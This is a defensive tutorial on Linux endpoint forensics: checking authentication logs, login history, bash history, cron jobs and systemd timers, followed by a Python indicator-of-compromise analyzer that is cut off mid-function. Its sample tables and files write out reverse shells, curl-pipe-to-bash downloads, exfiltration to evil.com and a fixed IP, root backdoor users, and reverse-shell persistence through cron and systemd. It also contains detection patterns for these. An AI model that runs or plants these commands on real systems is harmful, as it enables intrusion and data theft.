


## 🐧 Full-Stack Lesson: Linux Endpoint Forensics — From auth.log to Persistence

## 📊 Executive Summary
Linux endpoint forensics is the systematic investigation of a compromised Linux system to identify attacker activity, reconstruct the timeline of intrusion, and uncover persistence mechanisms. This lesson provides a full-stack approach — from parsing authentication logs and login histories to analyzing command histories, cron jobs, and systemd timers. You will learn to trace attacker behavior, detect backdoors, and produce a defensible forensic timeline using both manual CLI techniques and automated Python analysis. Every phase maps to real-world TTPs observed in Linux-targeting adversaries.



## 🏗️ Phase 1: Reading `/var/log/auth.log` — Authentication Event Analysis

### The Central Authentication Log
On Debian/Ubuntu-based systems, `/var/log/auth.log` records all authentication-related events: SSH logins, sudo commands, user creations, `su` switches, and PAM module activity. On RHEL/CentOS, the equivalent is `/var/log/secure`.

**Critical Rule**: auth.log is a timestamped, append-only log — the most recent entries are at the bottom. Always read chronologically for a timeline, or tail for recent activity.

### Table of Critical Linux Log Files

| Log File | Location | Purpose |
|----------|----------|---------|
| **auth.log** | `/var/log/auth.log` | Authentication events (SSH, sudo, login, user mgmt) |
| **secure** | `/var/log/secure` | RHEL/CentOS equivalent of auth.log |
| **syslog** | `/var/log/syslog` | General system log (daemon messages, kernel, services) |
| **messages** | `/var/log/messages` | General system messages (RHEL/CentOS) |
| **boot.log** | `/var/log/boot.log` | Boot-time messages |
| **dmesg** | `dmesg` (kernel ring buffer) | Kernel driver and hardware messages |
| **lastlog** | `/var/log/lastlog` | Binary log of last login per user |
| **wtmp** | `/var/log/wtmp` | Binary log of all logins/logouts |
| **btmp** | `/var/log/btmp` | Binary log of failed login attempts |
| **cron** | `/var/log/cron` | Cron job execution records |
| **journald** | `journalctl` | Systemd journal — superset of many logs |
| **kern.log** | `/var/log/kern.log` | Kernel messages |

### Key Techniques

### 🔍 auth.log Analysis Commands

```bash
# View entire auth.log (chronological)
sudo cat /var/log/auth.log

# Tail recent entries
sudo tail -n 100 /var/log/auth.log

# Follow live (during active investigation)
sudo tail -f /var/log/auth.log

# Search for SSH connections
sudo grep 'sshd' /var/log/auth.log

# Search for sudo usage
sudo grep 'sudo' /var/log/auth.log

# Search for user additions
sudo grep 'useradd\|adduser\|new user' /var/log/auth.log

# Search for su switches
sudo grep 'su:' /var/log/auth.log

# Extract all accepted SSH logins
sudo grep 'Accepted' /var/log/auth.log

# Extract all failed SSH logins
sudo grep 'Failed password' /var/log/auth.log

# Extract unique IP addresses from failed SSH
sudo grep 'Failed password' /var/log/auth.log | grep -oP 'from \K[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' | sort -u

# Find brute-force patterns (same IP, many attempts)
sudo grep 'Failed password' /var/log/auth.log | grep -oP 'from \K[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' | sort | uniq -c | sort -nr

# Filter by date range
sudo awk '/Nov  5/ && /Nov  6/' /var/log/auth.log

# Use journalctl for systems without auth.log
journalctl _SYSTEMD_UNIT=sshd.service --no-pager
```


### Sample Auth.log Output

```
Nov  4 09:15:22 server1 sshd[1234]: Failed password for root from 192.168.1.100 port 54231 ssh2
Nov  4 09:15:25 server1 sshd[1234]: Failed password for root from 192.168.1.100 port 54232 ssh2
Nov  4 09:15:28 server1 sshd[1236]: Accepted publickey for john from 10.0.0.50 port 54321 ssh2: RSA SHA256:abc123
Nov  4 09:16:01 server1 sudo:   john : TTY=pts/0 ; PWD=/home/john ; USER=root ; COMMAND=/bin/bash
Nov  4 09:16:30 server1 useradd[1250]: new user: name=backdoor, UID=1001, GID=1001, home=/home/backdoor
Nov  4 09:17:00 server1 passwd[1255]: password for 'backdoor' changed by 'root'
```

> 💡 **Pro Tip**: Correlate auth.log timestamps with other logs (syslog, bash_history timestamps) to build a complete attacker timeline. A gap in logging may indicate log tampering — check with `sudo journalctl --verify`.

### What Attackers Look Like in auth.log

| Attacker TTP | Log Signature | Example |
|-------------|---------------|---------|
| **SSH Brute Force** | Hundreds of `Failed password` entries from same IP | `Failed password for root from 45.33.32.156` |
| **Successful Intrusion** | `Accepted` entry after many failures | `Accepted publickey for victim from 45.33.32.156` |
| **Privilege Escalation** | `sudo` entries from non-admin user | `sudo: alice : COMMAND=/usr/bin/su` |
| **Backdoor User Creation** | `useradd` / `adduser` entries | `new user: name=devops, UID=1002` |
| **Password Change** | `passwd` entries for unexpected users | `password for 'devops' changed by 'root'` |

> ⚠️ **Warning**: Attackers often delete or truncate auth.log after intrusion. Check for log rotation anomalies (`/var/log/auth.log*`), missing date ranges, or zero-byte log files. Run `sudo file /var/log/auth.log*` to verify integrity.

## 🛠️ Phase 2: Running `last` and `lastb` — Login History Reconstruction

### Understanding the Binary Logs
`last` reads `/var/log/wtmp` — a binary file recording all successful logins/logouts. `lastb` reads `/var/log/btmp` — a binary file of failed login attempts. These are append-only, but can be cleared by a root attacker.



### Key Commands

### ⌨️ last / lastb Command Reference

```bash
# Show all successful logins (wtmp)
last

# Show failed login attempts (btmp)
lastb

# Limit output (e.g., last 50 entries)
last -50
lastb -50

# Show IP addresses only (no hostname resolution)
last -n 20 -i
lastb -n 20 -i

# Show logins for a specific user
last john
lastb john

# Show all entries since a given date
last --since "2026-11-01"
lastb --since "2026-11-01"

# Show logins from a specific IP
last -i | grep "192.168.1.100"

# Check if wtmp/btmp have been cleared
last -f /var/log/wtmp.1   # Check rotated log
sudo file /var/log/wtmp

# Display all users who have ever logged in
last | awk '{print $1}' | sort -u

# Find reboots
last reboot

# Find system shutdowns
last shutdown

# Show when users logged out
last -x
```


### Sample last Output

```
john     pts/0        10.0.0.50        Tue Nov  4 09:15 - 09:30  (00:15)
alice    pts/1        192.168.1.100    Tue Nov  4 08:00 - 08:45  (00:45)
root     pts/2        :0               Mon Nov  3 22:00 - 23:59  (01:59)
backdoor pts/0        45.33.32.156     Tue Nov  4 09:35 - still logged in
reboot   system boot  5.4.0-26-generic Mon Nov  3 21:45 - 09:40  (11:55)
```

> 💡 **Pro Tip**: Use `last -i` to disable DNS resolution and see raw IPs. Combine with `lastb` to spot patterns where a successful login follows many failed attempts from the same IP — this confirms a brute-force compromise.

### Sample lastb Output

```
root     ssh:notty    45.33.32.156     Tue Nov  4 09:10 - 09:15  (00:05)
root     ssh:notty    45.33.32.156     Tue Nov  4 09:10 - 09:15  (00:05)
root     ssh:notty    45.33.32.156     Tue Nov  4 09:11 - 09:15  (00:04)
admin    ssh:notty    45.33.32.156     Tue Nov  4 09:12 - 09:15  (00:03)
john     ssh:notty    45.33.32.156     Tue Nov  4 09:35 - 09:35  (00:00)
```

### What to Look For

| Indicator | Suspicious Pattern | Interpretation |
|-----------|-------------------|----------------|
| **Unknown users in last** | A user account you didn't create | Backdoor or compromised account |
| **SSH from unusual IPs** | Foreign IPs or IPs outside org range | External attacker |
| **Login from user+IP in lastb** | Same IP in both lastb (failed) and last (successful) | Brute force that succeeded |
| **After-hours logins** | Logins at 03:00 from unknown IP | Attacker operating off-hours |
| **Short sessions** | `(00:01)` duration after many failures | Brute-force script hit |
| **Missing log entries** | last shows nothing after `wtmp begins` | Logs were cleared |
| **Long-running sessions** | `still logged in` for days | Dormant backdoor session |

> ⚠️ **Warning**: A savvy attacker may wipe `/var/log/wtmp` and `/var/log/btmp`. Check for gaps in the timeline. Use `sudo last -f /var/log/wtmp-YYYYMMDD` to examine rotated logs before they were potentially wiped.

## 🔍 Phase 3: Searching `.bash_history` — Reconstructing Attacker Commands

### The Attacker's Footprint
Every user's `~/.bash_history` file records commands typed into bash (if `HISTFILE` is set and `HISTSIZE` is positive). This is the single most valuable source for understanding exactly what an attacker did on a compromised system.

> ⚠️ **Warning**: Experienced attackers will `unset HISTFILE`, `history -c`, delete `~/.bash_history`, or symlink it to `/dev/null`. Check for: missing history file, zero-byte history, symlinked history, or truncation at the last command.

### Key Commands

### ⌨️ Bash History Analysis Commands

```bash
# View current user's history
history

# Read a specific user's history
sudo cat /home/john/.bash_history

# Read root's history
sudo cat /root/.bash_history

# Check if history was cleared (file exists but empty)
sudo ls -la /home/john/.bash_history

# Check for symlink attacks
sudo readlink /home/john/.bash_history
# /dev/null if attacker redirected it

# Display timestamps (if HISTTIMEFORMAT was set)
history 1

# Search for reverse shells
sudo grep -i 'bash -i\|/dev/tcp\|nc -e\|ncat\|socat\|sh -i' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Search for privilege escalation
sudo grep -i 'sudo\|su root\|chmod 777\|passwd\|useradd\|adduser' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Search for data exfiltration
sudo grep -i 'curl\|wget\|scp\|rsync\|ftp\|nc\|ncat' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Search for persistence mechanisms
sudo grep -i 'crontab\|cron\|@reboot\|systemd\|systemctl\|service\|chkconfig\|sshd_config\|authorized_keys' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Search for reconnaissance
sudo grep -i 'whoami\|id\|uname -a\|hostname\|ifconfig\|ip addr\|cat /etc/passwd\|cat /etc/shadow\|ls -la\|find / -perm\|ps aux\|netstat\|ss -\|lsof' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Search for download/install of tools
sudo grep -i 'apt-get\|yum install\|pip install\|git clone\|wget\|curl -O\|tftp\|scp' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Search for attempts to cover tracks
sudo grep -i 'history -c\|history -w\|unset HISTFILE\|rm -rf\|shred\|> /var/log\|truncate\|sed -i.*history' /home/*/.bash_history /root/.bash_history 2>/dev/null

# Show full history with line numbers (if available)
sudo nl -ba /home/john/.bash_history

# Show the last 20 commands (most recent)
sudo tail -20 /home/john/.bash_history
```


### Table of Suspicious Command Patterns in bash_history

| Category | Suspicious Commands | What It Indicates |
|----------|-------------------|-------------------|
| **Reverse Shell** | `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1` | Outbound C2 connection |
| **Reverse Shell** | `nc -e /bin/sh 10.0.0.1 4444` | Netcat backconnect |
| **Reverse Shell** | `socat TCP:10.0.0.1:4444 EXEC:/bin/bash` | Socat reverse shell |
| **Privilege Escalation** | `sudo su -` | Switch to root |
| **Privilege Escalation** | `./exploit_linux` | Run kernel exploit binary |
| **Privilege Escalation** | `chmod +s /bin/bash` | SUID backdoor on bash |
| **Backdoor User** | `useradd -o -u 0 attacker` | Root UID backdoor user |
| **Backdoor User** | `echo 'attacker:$6$...:0:0' >> /etc/passwd` | Direct passwd injection |
| **Persistence - SSH** | `echo 'ssh-rsa AAA...' >> ~/.ssh/authorized_keys` | SSH key backdoor |
| **Persistence - Cron** | `crontab -e; echo '* * * * * /bin/bash -i >& /dev/tcp/10.0.0.1/5555 0>&1'` | C2 via cron |
| **Persistence - Systemd** | `systemctl enable malicious.service` | Systemd service backdoor |
| **Download Tooling** | `wget http://evil.com/tools/mimipenguin.sh` | Download credential theft tool |
| **Download Tooling** | `curl -s http://evil.com/loot.sh | bash` | Remote execution (fileless) |
| **Data Exfiltration** | `tar czf /tmp/data.tgz /etc/shadow /etc/passwd /home/` | Credential harvesting |
| **Data Exfiltration** | `curl -X POST --data-binary @/tmp/data.tgz http://evil.com/exfil` | HTTP exfiltration |
| **Data Exfiltration** | `scp /tmp/data.tgz attacker@evil.com:/tmp/` | SCP exfiltration |
| **Reconnaissance** | `whoami; id; hostname; uname -a` | Initial recon |
| **Reconnaissance** | `cat /etc/passwd; cat /etc/shadow` | User enumeration |
| **Reconnaissance** | `ps aux; netstat -tlnp; ss -tlnp` | Process/network recon |
| **Lateral Movement** | `ssh user@internal-server` | Move to other systems |
| **Lateral Movement** | `scp ~/.ssh/id_rsa user@target:~/.ssh/` | Spread SSH keys |
| **Cover Tracks** | `history -c; rm ~/.bash_history` | Clear history |
| **Cover Tracks** | `shred -zu ~/.bash_history` | Irreversible deletion |
| **Cover Tracks** | `> /var/log/auth.log; > /var/log/syslog` | Clear system logs |
| **Cover Tracks** | `ln -sf /dev/null ~/.bash_history` | Symlink history to null |

### Sample Malicious bash_history

```
whoami
id
hostname
uname -a
cat /etc/passwd
sudo -l
sudo su -
cd /tmp
wget http://45.33.32.156/exploit
chmod +x exploit
./exploit
useradd -o -u 0 sysbackup
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ... attacker' >> /root/.ssh/authorized_keys
echo '* * * * * /bin/bash -i >& /dev/tcp/45.33.32.156/8080 0>&1' | crontab -
history -c
rm -rf ~/.bash_history
```

> 💡 **Pro Tip**: Even if `HISTFILE` is empty, bash history may still exist in memory. A memory forensics tool like `volatility` (with `linux_bash` plugin) can recover in-memory bash history from a live or dumped system.

## 🚀 Phase 4: Inspecting Crontab and Systemd Timers — Discovering Persistence

### Why Persistence Matters
Attackers rarely stay for a single session. They install persistence mechanisms to regain access after reboot, maintain C2, or periodically execute malicious tasks. Crontab and systemd timers are the most common Linux persistence methods.

```mermaid
flowchart LR
    A[Persistence Detection] --> B[Crontab Checks]
    A --> C[Systemd Timer Checks]
    A --> D[Startup Script Checks]
    A --> E[SSH Key Checks]

    B --> B1[user crontabs]
    B --> B2[/etc/crontab]
    B --> B3[/etc/cron.d/*]
    B --> B4[/etc/cron.hourly/daily/*]

    C --> C1[systemctl list-timers]
    C --> C2[ls /etc/systemd/system/*.timer]
    C --> C3[ls /usr/lib/systemd/system/*.timer]
    C --> C4[systemctl status <timer>]

    D --> D1[/etc/rc.local]
    D --> D2[/etc/init.d/*]
    D --> D3[/etc/rc*.d/*]

    E --> E1[~/.ssh/authorized_keys]
    E --> E2[/root/.ssh/authorized_keys]
    E --> E3[/etc/ssh/authorized_keys/*]
```

### 4.1 Crontab Investigation

### ⌨️ Crontab Analysis Commands

```bash
# List current user's crontab
crontab -l

# List another user's crontab
sudo crontab -u john -l

# List root's crontab
sudo crontab -l

# View the system-wide crontab
cat /etc/crontab

# List all cron.d entries
ls -la /etc/cron.d/
cat /etc/cron.d/*

# List cron.hourly, daily, weekly, monthly scripts
ls -la /etc/cron.hourly/
ls -la /etc/cron.daily/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# Check for cron spool files (user crontabs stored here)
ls -la /var/spool/cron/crontabs/

# Search for suspicious crontab entries across all users
for user in $(cut -f1 -d: /etc/passwd); do
    sudo crontab -u "$user" -l 2>/dev/null
done

# Check cron log for execution records
sudo grep -i 'cron\|CRON' /var/log/syslog
sudo journalctl -u cron --no-pager
```


### Sample Malicious Crontab Entry

```
# Atacker persistence - reverse shell every 5 minutes
*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/45.33.32.156/8080 0>&1'

# Download and execute payload daily
0 3 * * * curl -s http://45.33.32.156/update.sh | bash

# Run miner at off-peak hours
0 */6 * * * /tmp/.systemd-miner
```

### 4.2 Systemd Timer Investigation

### ⌨️ Systemd Timer Analysis Commands

```bash
# List all active timers
systemctl list-timers --all --no-pager

# List all timers (including inactive)
systemctl list-timers --all

# List all installed timer unit files
ls -la /etc/systemd/system/*.timer
ls -la /usr/lib/systemd/system/*.timer

# View a specific timer definition
systemctl cat malicious.timer

# View the service triggered by the timer
systemctl cat malicious.service

# Check when a timer last ran
systemctl status malicious.timer

# Check if a timer is enabled
systemctl is-enabled malicious.timer

# Search for all enabled timers
systemctl list-unit-files --type=timer --state=enabled

# Look at the service file associated with a timer
cat /etc/systemd/system/malicious.service
cat /usr/lib/systemd/system/malicious.service

# Check systemd journal for timer execution
journalctl -u malicious.* --no-pager

# Look for recently created/modified unit files
find /etc/systemd/system/ /usr/lib/systemd/system/ -name '*.service' -o -name '*.timer' | \
    xargs ls -lt | head -20
```


### Sample Malicious Systemd Timer & Service

**/etc/systemd/system/update-checker.timer**
```
[Unit]
Description=Update Checker

[Timer]
OnBootSec=5min
OnUnitActiveSec=30min

[Install]
WantedBy=timers.target
```

**/etc/systemd/system/update-checker.service**
```
[Unit]
Description=Update Checker Service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/45.33.32.156/8080 0>&1'
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

### 4.3 Other Persistence Checks

| Persistence Method | Check Command | Suspicious Sign |
|-------------------|---------------|-----------------|
| **SSH Authorized Keys** | `cat ~/.ssh/authorized_keys; cat /root/.ssh/authorized_keys` | Unknown key with comment |
| **SSH Config Backdoor** | `cat ~/.ssh/config` | `ProxyCommand` pointing to attacker |
| **rc.local** | `cat /etc/rc.local` | Unknown scripts in boot sequence |
| **init.d scripts** | `ls -la /etc/init.d/` | Scripts with suspicious names or recent mod times |
| **bashrc / profile** | `cat ~/.bashrc; cat ~/.profile; cat /etc/bash.bashrc` | Reverse shell or persistence in shell init |
| **.bash_logout** | `cat ~/.bash_logout` | Commands that fire on logout |
| **LD_PRELOAD** | `echo $LD_PRELOAD` | Suspicious library loading |
| **Kernel Modules** | `lsmod; ls -la /lib/modules/$(uname -r)` | Unknown LKM rootkits |
| **Python Startup** | `cat ~/.python_startup.py` | Python-initiated backdoors |
| **X11 Startup** | `ls -la ~/.config/autostart/` | GUI-based persistence |
| **at jobs** | `atq` | One-time scheduled tasks |

> 💡 **Pro Tip**: Check file modification times (`ls -la /etc/cron.d/`, `ls -la /etc/systemd/system/*.timer`). Recently modified system-level files with suspicious names are a major red flag. Cross-reference with bash_history to see if the attacker installed these files.

## 🧰 Phase 5: Additional Artifacts — syslog, lsof, netstat/ss, ps aux

### 5.1 `/var/log/syslog` and `/var/log/secure`

```mermaid
flowchart TD
    A[System Logs] --> B[syslog - general system messages]
    A --> C[secure - RHEL auth (alt to auth.log)]
    A --> D[kern.log - kernel messages]
    A --> E[dpkg.log - package installs]

    B --> F[Look for: service restarts, crashes, errors]
    C --> G[Look for: auth failures, sudo, PAM errors]
    D --> H[Look for: suspicious kernel modules, OOM killer]
    E --> I[Look for: unexpected package installs]

    F --> J[Correlate timestamps with attack timeline]
    G --> J
    H --> J
    I --> J
```

### ⌨️ Syslog / Secure Analysis Commands

```bash
# Search syslog for service anomalies
sudo grep -i 'fail\|error\|denied\|invalid' /var/log/syslog

# Search for service restarts (potential persistence activation)
sudo grep -i 'stopped\|started\|restarted' /var/log/syslog

# Search for unexpected package installations
sudo grep -i 'install\|remove\|unpack' /var/log/dpkg.log /var/log/apt/history.log 2>/dev/null

# RHEL/CentOS — check secure log
sudo grep -i 'failed\|accepted\|sudo\|useradd' /var/log/secure

# Search for kernel module loads
sudo grep -i 'Loading\|inserting\|init_module' /var/log/kern.log
dmesg | grep -i 'load\|module'

# Check for log tampering (gaps in timestamps)
sudo awk 'NR>1 { if ( $1 " " $2 " " $3 != prev ) print NR, $0 } { prev = $1 " " $2 " " $3 }' /var/log/syslog
```


### 5.2 `lsof` — Open File Descriptors & Network Connections

| Command | What It Reveals | Suspicious Pattern |
|---------|----------------|-------------------|
| `lsof -i` | All network connections | Unusual outbound connections |
| `lsof -i :22` | SSH-related FDs | Multiple SSH sessions to unknown IPs |
| `lsof -u attacker` | Files open by a user | Hidden files, deleted-but-open files |
| `lsof +L1` | Deleted but still-open files | Malware hiding by self-deleting binary |
| `lsof -i -nP` | Raw IPs (no DNS, no port names) | C2 connections without DNS resolution |
| `lsof -c bash` | Open files for bash | Reverse shell bash will show a socket |

### ⌨️ lsof Analysis Commands

```bash
# List all open files with network connections
sudo lsof -i

# List all TCP connections (no DNS, port numbers only)
sudo lsof -iTCP -sTCP:LISTEN -nP

# List established connections
sudo lsof -iTCP -sTCP:ESTABLISHED -nP

# Find processes with deleted but open files (classic malware trick)
sudo lsof +L1

# See what files a specific PID has open
sudo lsof -p <PID>

# Find processes listening on unusual ports
sudo lsof -i -nP | grep LISTEN | awk '{print $1, $3, $9}' | sort -u

# Show all network connections by a specific user
sudo lsof -u attacker -i -nP
```


### 5.3 `netstat` / `ss` — Network Connections

```bash
# Traditional netstat
sudo netstat -tlnp    # All listening TCP ports with PIDs
sudo netstat -ulnp    # All listening UDP ports with PIDs
sudo netstat -antp    # All TCP connections (numeric)
sudo netstat -antup   # All TCP + UDP connections

# Modern ss replacement (faster, more detailed)
sudo ss -tlnp         # All listening TCP with PIDs
sudo ss -ulnp         # All listening UDP with PIDs
sudo ss -antp         # All TCP connections
sudo ss -tlnp sport :80  # Filter by source port

# Show processes connecting to an external IP
sudo ss -antp | grep 45.33.32.156

# Show listening sockets on non-standard ports
sudo ss -tlnp | awk -F: '{print $2, $0}' | sort -n | head -50
```

> 💡 **Pro Tip**: Reverse shells typically show a process (often `bash`, `sh`, `python`, `perl`, `nc`) connected to an external IP on a non-standard high port. `ss -antp` combined with `grep ESTAB` and filtering for known services is the fastest detection method.

### 5.4 `ps aux` — Running Processes

```bash
# Full process listing
ps aux

# Show process tree
ps auxf

# Show all processes with full command lines
ps -ef

# Look for hidden processes (inconsistent between ps and /proc)
ps aux | grep -v '^\['

# Search for suspicious process names
ps aux | grep -i 'bash\|nc\|ncat\|socat\|python\|perl\|ruby\|mine\|crypto\|xmr\|httpd'

# Show processes with high CPU (potential miner)
ps aux --sort=-%cpu | head -20

# Show processes running from /tmp (common malware location)
ps aux | grep '/tmp'

# Show processes not associated with a terminal (daemon-like malware)
ps -ef | grep ' ? '

# Find processes with PPID inconsistencies
ps -eo pid,ppid,cmd | awk '$1 != 1 && $2 == 1 {print}'

# Check for process names that are commonly masqueraded
ps aux | grep -E '\[.*\]'  # Kernel thread brackets (legit)
# Check for names like: [kworker] vs kworker (without brackets = fake)
```

### Table: Common Process Masquerading Techniques

| Fake Name | Real Name | Detection |
|-----------|-----------|-----------|
| `[kworker]` (without brackets) | Kernel thread worker | `ps aux | grep '\[kworker\]'` shows nothing |
| `httpd` (unusual location) | Apache HTTPD | Running from `/tmp` or user home |
| `syslogd` (never heard of it) | Syslog daemon | Usually `rsyslogd` or `syslog-ng` |
| `sshd` (spawned by wrong parent) | SSH daemon | PPID should be 1, not a user shell |
| `crond` (not `cron`) | Cron daemon | Name misspelling |
| `.bash` (starts with dot) | Bash shell | Hidden name, often from `/tmp` |
| `udevd` (no device manager) | udev daemon | Legit, but check its command line |

## 🐍 Automated Log Analysis with Python

### 🔧 Python Script: Linux Forensic Log Analyzer

```python
#!/usr/bin/env python3
"""
Linux Endpoint Forensic Log Analyzer
Analyzes auth.log, bash_history, crontabs, and running processes
to identify indicators of compromise.
"""

import re
import os
import sys
import json
import subprocess
from datetime import datetime
from typing import List, Dict, Optional, Tuple
from collections import Counter
from pathlib import Path


class LinuxForensicAnalyzer:
    def __init__(self, log_dir: str = "/var/log"):
        self.log_dir = Path(log_dir)
        self.findings: List[Dict] = []
        self.timeline: List[Dict] = []

    def analyze_auth_log(self, path: str = "/var/log/auth.log") -> Dict:
        """Parse auth.log for attacker indicators"""
        results = {
            "failed_ssh": [],
            "accepted_ssh": [],
            "sudo_events": [],
            "user_additions": [],
            "attacker_ips": set(),
            "total_failed": 0,
        }

        auth_path = Path(path)
        if not auth_path.exists():
            return {"error": f"{path} not found"}

        with open(auth_path, "r", errors="ignore") as f:
            for line in f:
                # Failed SSH passwords
                if "Failed password" in line:
                    results["total_failed"] += 1
                    ip_match = re.search(r"from (\S+)", line)
                    user_match = re.search(r"for (\S+)", line)
                    if ip_match:
                        ip = ip_match.group(1)
                        results["failed_ssh"].append(
                            {"timestamp": line[:15], "ip": ip, "user": user_match.group(1) if user_match else "unknown"}
                        )
                        results["attacker_ips"].add(ip)

                # Accepted SSH logins
                elif "Accepted" in line:
                    ip_match = re.search(r"from (\S+)", line)
                    user_match = re.search(r"for (\S+)", line)
                    if ip_match:
                        results["accepted_ssh"].append(
                            {"timestamp": line[:15], "ip": ip_match.group(1), "user": user_match.group(1) if user_match else "unknown"}
                        )

                # Sudo usage
                elif "sudo:" in line:
                    user_match = re.search(r"(\w+)\s+:", line)
                    cmd_match = re.search(r"COMMAND=(.*)", line)
                    if user_match:
                        results["sudo_events"].append(
                            {"timestamp": line[:15], "user": user_match.group(1), "command": cmd_match.group(1) if cmd_match else "unknown"}
                        )

                # User additions
                elif "new user:" in line or "useradd" in line:
                    results["user_additions"].append({"timestamp": line[:15], "line": line.strip()})

        results["bruteforce_ips"] = [
            {"ip": ip, "count": count}
            for ip, count in Counter([e["ip"] for e in results["failed_ssh"]]).most_common(10)
            if count >= 5
        ]
        return results

    def analyze_bash_history(self, user: str = "root") -> Dict:
        """Analyze a user's bash_history for suspicious commands"""
        patterns = {
            "reverse_shell": [
                r"bash -i",
                r"/dev/tcp/",
                r"nc -e",
                r"ncat",
                r"socat.*exec",
                r"sh -i",
                r"python.*socket",
                r"perl.*socket",
            ],
            "privilege_escalation": [
                r"sudo su",
                r"su root",
                r"chmod 777",
                r"passwd",
                r"useradd",
                r"adduser",
                r"chmod \+s",
                r"exploit",
            ],
            "persistence": [
                r"crontab",
                r"@reboot",
                r"systemd",
                r"systemctl",
                r"\.ssh/authorized_keys",
                r"rc\.local",
                r"init\.d",
            ],
            "data_exfiltration": [
                r"scp ",
                r"rsync",
                r"curl.*-X POST",
                r"curl.*-d @",
                r"wget.*--post",
                r"nc .* < ",
            ],
            "reconnaissance": [
                r"whoami",
                r"uname -a",
                r"cat /etc/passwd",
                r"cat /etc/shadow",
                r"ps aux",
                r"netstat",
                r"ss ",
                r"lsof",
                r"ifconfig",
                r"ip addr",
                r"find / ",
            ],
            "cover_tracks": [
                r"history -c",
                r"rm.*history",
                r"shred.*history",
                r"> /var/log",
                r"ln -sf /dev/null",
            ],
            "lateral_movement": [
                r"ssh .*@",
                r"scp.*@",
            ],
        }

        hist_path = Path(f"/home/{user}/.bash_history") if user != "root" else Path("/root/.bash_history")
        results = {"user": user, "suspicious": [], "cleared": False, "symlinked": False}

        if not hist_path.exists():
            return {"error": f"History not found for user {user}"}

        if hist_path.stat().st_size == 0:
            results["cleared"] = True
            return results

        if hist_path.is_symlink():
            target = os.readlink(hist_path)
            results["symlinked"] = True
            results["symlink_target"] = target
            if target == "/dev/null":
                results["cleared"] = True
            return results

        with open(hist_path, "r", errors="ignore") as f:
            lines = f.readlines()

        for i, line in enumerate(lines):
            line = line.strip()
            if not line:
                continue
            for category, regexes in patterns.items():
                for pattern in regexes:
                    if re.search(pattern, line, re.IGNORECASE):
                        results["suspicious"].append({
                            "line_number": i + 1,
